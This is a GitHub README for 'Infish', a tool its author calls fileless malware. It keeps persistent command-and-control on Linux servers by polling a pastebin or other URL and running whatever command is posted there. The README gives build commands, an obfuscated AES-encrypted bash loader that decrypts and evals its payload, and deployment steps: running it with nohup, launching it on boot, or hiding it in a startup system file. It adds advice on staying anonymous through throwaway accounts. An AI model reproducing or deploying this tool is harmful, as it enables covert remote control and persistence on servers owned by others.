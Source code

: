 # Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access (command and control) on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting. It's a demonstration of a fileless maleware.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **even reboot** can not save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on a predefined url or pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

First clone the git repo

```bash
$ git clone https://github.com/phrenotype/infish.git
```

Then move into the directory

```bash
$ cd infish
```

As usual, to see usage,

```bash
$ ./infish -h
```
or
```bash
$ ./infish --help
```

There are two ways to build the final product.

- Using a raw pastebin url (or a url from a website you control. Observe opsec though.)
- Using your pastebin dev api key, username, and password

However, you first need to clone this repository or copy the infis-builder file to your local machine. Make it executable by running  

```bash
$ chmod +x infish
```

## Using a raw url

This is when you already have a webpage (observe opsec) or have already created a paste by hand. Get the **raw paste url** or the url of the page you choose and run the following command

```bash
$ ./infish --url 'https://example.com/cmd' --sleep 900 --user-agent 'Mozilla 5.0'
```
**or**

```bash
$ ./infish --key 'ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890' --sleep 900 --user-agent 'Mozilla 5.0'
```

This will generate a file called **.infish** with contents that look like  

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "2zvhB+0qO2zqAoEinkUcDPSr6M9XnvlFyQ+9dusb6R9BthEkH1k7eHwJpl+qJSda
Q7S2w1ijyWn6rJeDlyhsC9pjwFgopvKe5A0KWD7PGoycRjQdPwGqFkAtS/AQrRDz
zBJuD6WOtr/Is5k1Fkk8ytnFazILqQlJalJRWv80lfW82WKJLfIKdtLw0ukbkyZ7
NYYIjy7ixdH6GmHpQAtglwqU/IyakMgFKI3K4y4lyqbgYdPjvKg/z6W3OCTtfmP8
AiDmuy7iuvBsmXlg9+pvgUeutDi1e2H9CKTVKviFFB57EeEdBSaOx2ha/fuXjCmU
U6WXKe8X3MS3ZpUBgc13mxgSCkMmSt0djyADDaS78EgccggdZyHJaMVIbb4cem1S
Ab/6gTfJiRnlS8RPT7MrBGz1xXs6pxYFqrOJnDURY4i34iUEtqQwuBDndkztLRfK
XtdEbTf27uXj900xOcLmBfGcJDLCnEqzdI1oWCVZq6NNE+NxrLEOqVB668/HMeBG
Ubqv/Klau2aBPr75Q4r13g1GAkkTE32eveecXe8vEFYlwz6wok2R43idQIOBJ2/c
/4Mq1LrLoBylbsZcIPOTThHIMHpr91Rk32mpa8rFSR+YVMhGGPSZr6Jq7n9CmhtW
8j3MWGdTIfH0iWVgmUJ7TcKJwWr4LA8h9oSNJyavqDTlgCzKdv9uLUWwyG6LmFkX
J6uGY9kX+lYnsrwLWHwz+lwiN3qTCc1o7Uw68sEeZbg=" | openssl enc -aes-256-cbc -K "950749b504f82fdd3899e5de21681724b596c2587c2457bf683f686e65a9f45c" -iv "853e8f9b15046491fe4a3067fa60bc8b" -d -a);
eval "$decrypted";
```

**You can specify the output filename or path using the `-o` or `--output` option**.

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
$ ./infish key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully built infinite shell

$
```

A file called '.infish' is created. 

Again, the file will contain something like  

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "2zvhB+0qO2zqAoEinkUcDPSr6M9XnvlFyQ+9dusb6R9BthEkH1k7eHwJpl+qJSda
Q7S2w1ijyWn6rJeDlyhsC9pjwFgopvKe5A0KWD7PGoycRjQdPwGqFkAtS/AQrRDz
zBJuD6WOtr/Is5k1Fkk8ytnFazILqQlJalJRWv80lfW82WKJLfIKdtLw0ukbkyZ7
NYYIjy7ixdH6GmHpQAtglwqU/IyakMgFKI3K4y4lyqbgYdPjvKg/z6W3OCTtfmP8
AiDmuy7iuvBsmXlg9+pvgUeutDi1e2H9CKTVKviFFB57EeEdBSaOx2ha/fuXjCmU
U6WXKe8X3MS3ZpUBgc13mxgSCkMmSt0djyADDaS78EgccggdZyHJaMVIbb4cem1S
Ab/6gTfJiRnlS8RPT7MrBGz1xXs6pxYFqrOJnDURY4i34iUEtqQwuBDndkztLRfK
XtdEbTf27uXj900xOcLmBfGcJDLCnEqzdI1oWCVZq6NNE+NxrLEOqVB668/HMeBG
Ubqv/Klau2aBPr75Q4r13g1GAkkTE32eveecXe8vEFYlwz6wok2R43idQIOBJ2/c
/4Mq1LrLoBylbsZcIPOTThHIMHpr91Rk32mpa8rFSR+YVMhGGPSZr6Jq7n9CmhtW
8j3MWGdTIfH0iWVgmUJ7TcKJwWr4LA8h9oSNJyavqDTlgCzKdv9uLUWwyG6LmFkX
J6uGY9kX+lYnsrwLWHwz+lwiN3qTCc1o7Uw68sEeZbg=" | openssl enc -aes-256-cbc -K "950749b504f82fdd3899e5de21681724b596c2587c2457bf683f686e65a9f45c" -iv "853e8f9b15046491fe4a3067fa60bc8b" -d -a);
eval "$decrypted";
```
**You can specify the output filename or path using the `-o` or `--output` option**.


## Deployment

There are two ways. Deploying it as a file on it's own, or as a **fileless** malware. I recommend the later.

### As A StandAlone File
Upload the **.infish** file to the target server and then, make it executable by running   

```bash
$ chmod +x .infish
```

Then to begin c&c, run  

```bash
$ nohup ./.infish & disown
```
If you have root access, you can set the last command above to run on boot. I will let you figure this part out.

Now, you can edit your paste to any shell command and the server will run it.

### As A Filess Malware

This is more devastating and very difficult to uncover. It involves adding the generated malware code to a legitimate system file that runs on startup. Again, figure that part out.

# Finally
That's it, you own the server. At least for now...

# Contact
Email: dev@paulrobert.xyz

Twitter: ![Twitter followers](https://img.shields.io/twitter/follow/phrenotyper?style=social)